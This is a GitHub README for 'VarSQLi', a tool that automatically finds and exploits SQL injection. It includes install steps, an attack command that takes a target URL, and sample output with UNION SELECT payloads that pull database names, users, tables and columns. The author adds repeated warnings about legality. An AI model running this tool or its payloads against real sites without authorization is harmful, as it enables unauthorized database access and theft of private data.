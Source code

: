 - [![.github/workflows/tests.yml](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml/badge.svg)](https://github.com/sqlmapproject/sqlmap/actions/workflows/tests.yml)
- [![Python|3.x](https://img.shields.io/badge/python-3.x-yellow.svg)](https://www.python.org/)
- [![License](https://img.shields.io/badge/license-GPLv1-red.svg)](https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE)
- [![Twitter](https://img.shields.io/badge/twitter-@Anonym0us_VNPC-blue.svg)](https://twitter.com/Anonym0us_VNPC)
# Variable-SQL-Injection
### Note From VarSQLi
> - _admin_ : [Twitter](https://twitter.com/Anonym0us_VNPC)
> - _Website_ : [Ghost Man](https://ghostmanews.blogspot.com)
> - _facebook_ : [adonis bertha](https://www.facebook.com/francesca.savino.18?mibextid=ZbWKwL)
> - _Github_ : @Phamchie

VarSQLi allows users to search for and exploit SQL injection vulnerabilities automatically. The tool employs techniques such as input string testing, SQL syntax analysis, and SQL statement testing to determine if a system is susceptible to SQL injection.
> warning: the tool will not have a dump database function, for the sake of protecting other people's private information, and absolutely not used for any other bad purpose, especially exploiting government and school sites  learn
### Screenshot
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/data/Screenshot_2023-08-02-00-24-06-25.jpg">

However, using VarSQLi or any other database exploitation tool to attack someone else's database is illegal and can have serious consequences. Illegally accessing someone else's database may violate information security regulations and ethical standards in information technology.

> Using VarSQLi or any unauthorized database exploitation tool can lead to imprisonment and criminal liability. We must adhere to security regulations and policies, respect privacy rights, and refrain from compromising others' systems and data.

>> Instead of relying on database exploitation tools, we should focus on enhancing our knowledge of security, understanding common security vulnerabilities, and implementing security measures to protect our systems and data. Collaborating with security experts and complying with legal regulations will ensure safety and ethical use of information technology

### setup - install tool
To set up VarSQLi, follow these steps:

1. Clone the VarSQLi repository from GitHub using the following command:
- `git clone https://github.com/Phamchie/varsqli`
2. Navigate to the VarSQLi directory:
- `cd varsql`
3. Install the required dependencies by running the setup script:
- `python3 setup.py`
- `python3 varsqli.py --help`
> Full Source Setup
```
git clone https://github.com/Phamchie/varsqli/
cd varsqli
python3 setup.py
python3 varsqli.py --help
```
> Once the setup is complete, you can start using VarSQLi to identify and exploit SQL injection vulnerabilities. However, always ensure that you have proper authorization and adhere to legal and ethical guidelines when conducting security assessments.

### Demo Attack 
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/.github/workflows/lv_0_20230803103153.gif">

#### How To Injection - Exploit 
- You can see that in the `--help` section, there is only one mode, `--url` and `--exploit` to update the url to attack and start Exploit
```
              ___
 _____         H  _____     _ _  {1.1.5}
|  |  |___ ___[,]|   __|___| |_|
|  |  | .'|  _[(]|__   | . | | | {Pham Chien}
 \___/|__,|_| [)]|_____|_  |_|_|
               V         |_|  ghostmanews.blogspot.com


[+] Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.

usage: varsqli.py [-h] [--url URL]

VarSQLi - Auto SQL Injection tools

options:
  -h, --help  show this help message and exit
  --url URL   URL Target (ex :            https://test.com/yourpath_vulnsqli.php?id=1)

  --exploit   start exploit
```
- To attack the target , you write the command :
-  `python3 varsqli.py --url < url vulerable > --exploit`
- the result will be
```
[INFO] Testing connect to target url..
[INFO] Testing IF the target url content is stable
[INFO] Target is the content stable..
[INFO] Testing 'Generic atline queries'..
[INFO] Testing 'UNION SELECT NUMBER COUNT COLUMNS (MySQL Select).'
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2--+-'
[INFO] Total Response Content HTML stable : 200 OK
[INFO] Testing Payload '+AND+0+UNION+SELECT+1,2,3--+-'
```
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-49-50-36.jpg">

- it is starting to attack, and after a while exploiting with UNION SELECT payloads to get the column number of the website, it will announce like this
> it is the number of columns, payload , target, user , database and the target's MySQL version

<img src="https://raw.githubusercontent.com/Phamchie/varsqli/VarSQLi/.github/workflows/Screenshot_2023-08-02-14-50-17-53.jpg">

- like last version, we don't have the feature to print database name and MySQL user, but i guarantee that the latest update version of too right now will have that feature 😃
> and here is the target database of tables and columns that VarSQLI has exploited
<img src="https://raw.githubusercontent.com/Phamchie/varsqli/main/.github/workflows/Screenshot_2023-08-02-14-50-35-49.jpg">
> so we've come to the end, so what's the ending?

# Ending 
A tip and note to use :
- Can you see how dangerous the SQL injection vulnerability is, here is a piece of advice for you, this tool is only for the nature, is to show the database name, and will never provide  dump database for users only, to ensure the security of network security
> Remember, using VarSQLi or any similar tool for illegal activities can result in severe legal consequences, including imprisonment. It is crucial to prioritize ethical hacking practices, collaborate with security professionals, and comply with relevant laws and regulations to ensure responsible and lawful use of such tools.
# Contact
> - Contact : [phamchienlc06@gmail.com](phamchienlc06@gmail.com)
> - Telegram Channel : [My Channel](https://t.me/Anon0psNews)
> - Telegram : [Adonis Bertha](https://t.me/anonopsvn)
> - website : [website](https://ghostmanews.blogspot.com)
